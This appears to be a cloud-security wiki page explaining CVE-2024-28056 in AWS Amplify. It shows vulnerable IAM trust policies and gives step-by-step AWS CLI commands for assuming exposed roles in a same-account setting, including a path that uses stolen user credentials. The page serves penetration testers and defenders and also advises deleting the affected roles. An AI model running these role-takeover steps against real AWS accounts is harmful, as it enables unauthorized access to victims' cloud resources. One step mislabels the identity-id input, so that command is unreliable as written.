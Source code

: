 ```yaml
---
author_name: Nick Frichette
title: "CVE-2024-28056: Exploit an AWS Amplify Vulnerability in a Same-Account Scenario"
description: An in-depth explanation of how to still abuse CVE-2024-28056, a vulnerability in AWS Amplify that exposed IAM roles to takeover.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/">Amplified exposure: How AWS flaws made Amplify IAM roles vulnerable to takeover</a> by <a href="https://x.com/Frichette_n">Nick Frichette</a></p>
    <p><img src="https://pbs.twimg.com/profile_images/1778462051670642688/rE7irovE_400x400.jpg" alt="Nick Frichette" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [AWS Security Bulletin: CVE-2024-28056](https://aws.amazon.com/security/security-bulletins/AWS-2024-003/)
</div>

## Background

In April of 2024, Security Researchers at [Datadog](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/) found a vulnerability in the [AWS Amplify](https://aws.amazon.com/amplify/) service that exposed IAM roles associated with the service to takeover. In particular, under two different scenarios the Amplify service was setting the role trust policies of certain roles to improperly limit which [Cognito identity pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html) could assume them. As a result, anyone could create their own identity pool (or find one on the internet) and use it to assume these vulnerable roles.

In response to this, AWS made a number of changes to IAM and the [AWS Security Token Service](https://docs.aws.amazon.com/STS/latest/APIReference/welcome.html) (STS) APIs. In particular, this involved:

* Releasing a fix to the [Amplify CLI](https://github.com/aws-amplify/amplify-cli/releases/tag/v12.10.1) and Amplify Studio preventing the creation of more vulnerable roles.
* Made changes to the IAM control plane to prevent anyone from creating role trust policies vulnerable to this misconfiguration. If you try to set a vulnerable policy today it will be rejected.
* Made changes to the STS service to **block cross-account role assumption of roles that have a vulnerable trust relationship with the Amazon Cognito service**.

This final fix is interestingly specific. AWS only made changes to block **cross-account** role assumption, not **same-account** role assumption. As a result of this, we can still potentially take advantage of roles that were made vulnerable by the Amplify service. This requires an identity pool to be configured in the victim account with the [basic (classic) authflow](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html) enabled.

!!! Warning
    **To be clear, this method is more difficult and requires the existence of at least one additional misconfigured resource**, however it is worthwhile to know about if you are a Penetration Tester or Red Teamer, or you simply use Amplify in your own organization.

!!! Note
    This is not realistically something that can be "fixed". AWS was able to block cross-account role assumption because it was a sufficiently rare occurrence. By comparison, same-account role assumption using Cognito is (as of today) the only method available. If you have IAM roles in your account which are vulnerable to this exposure it is recommended to delete them, or change their trust policy in addition to relying on the fixes that AWS provided.

## Unauthenticated Example

![Unauthenticated Scenario](../../../images/aws/exploitation/exploit_amplify_vulnerability_in_same_account_scenario/unauth_same_account_scenario.png)

In this scenario, there exists a vulnerable role in the account, alongside an identity pool that has the basic authflow enabled. This role's trust policy does not require authentication to assume. Here is an example of a vulnerable trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

!!! Note
    There is another variant of this misconfiguration where the trust policy includes a condition for `cognito-identity.amazonaws.com:amr` that is set to `unauthenticated`.

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. Using the AWS CLI, perform the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id>`
    * This can typically be found in the client side JavaScript of the web application using this identity pool.
2. Using the `IdentityId` from step one, perform the following command: `aws cognito-identity get-open-id-token --identity-id <identity id from step 1>`
    * This will return a JWT we can use to authenticate to the vulnerable role. You can inspect this JWT if you so choose.
3. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 2>`
    * The vulnerable role ARN will need to be [brute-forced](../../enumeration/enum_iam_user_role.md), [derived from other values](../../enumeration/enumerate_principal_arn_from_unique_id.md), found in [source control](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/#results-finding-misconfigured-roles-in-the-wild), or a variety of other means.

By following these steps you should successfully generate IAM credentials for the vulnerable role:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIA123ABC456DEF789G",
        "SecretAccessKey": "123ABC456DEF789G123ABC456DEF789GHI012JKL",
        "SessionToken": "...snip...",
        "Expiration": "2024-07-31T20:02:33+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:00000000-1111-2222-3333-444444444444",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA123ABC456DEF789G:hijacked_role",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vulnerable-amplify-role/hijacked_role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:aaaaaaaa-1111-bbbb-2222-cccccccccccc"
}
```

## Authenticated Example

In an authenticated scenario, the identity pool in the victim account must be configured to support authentication with a [Cognito user pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html). An example vulnerable role trust policy can be found below:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. First, find credentials for a user account in the pool. If you cannot steal or create credentials you cannot continue.
2. Authenticate to the user pool using [cognito-idp:InitiateAuth](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/initiate-auth.html). The specific command you will need to use will differ depending on the type of authentication in place. Please refer to the documentation for more information. Here we will demonstrate using `USER_PASSWORD_AUTH`.
    * Run the following command: `aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id <client id of the victim user pool> --auth-parameters USERNAME=<username>,PASSWORD=<password>`
    * This will return an `IdToken` that will be used in the next step.
    * Note: The `AccessToken` is **NOT** the same as the `IdToken`. 
3. Run the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id> --logins '{"cognito-idp.<region>.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * This will return an `IdentityId` that will be used in the next step.
4. Run the following command: `aws cognito-identity get-open-id-token --identity-id <IdToken from step 3> --logins '{"cognito-idp.us-east-1.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * Note: You **MUST** include the `logins` parameter, it is not optional.
    * This will return a JWT we will use in the next step.
5. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 4>`

By following these steps you should successfully generate IAM credentials for the vulnerable role.
